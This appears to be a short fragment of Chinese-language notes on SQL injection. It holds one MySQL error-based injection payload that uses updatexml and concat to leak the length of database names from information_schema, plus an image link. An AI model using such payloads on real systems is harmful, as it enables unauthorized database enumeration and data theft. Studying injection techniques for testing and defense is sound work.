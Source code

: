![image-20250222154011697](static/image/image-20250222154011697.png)

#### 获取数据库名长度

```mysql
# 获取某个数据库的数据库名长度
updatexml(1,concat(0x7e,(SELECT(LENGTH(schema_name))FROM(information_schema.schemata) limit 第x个数据库,1),0x7e),1)
```
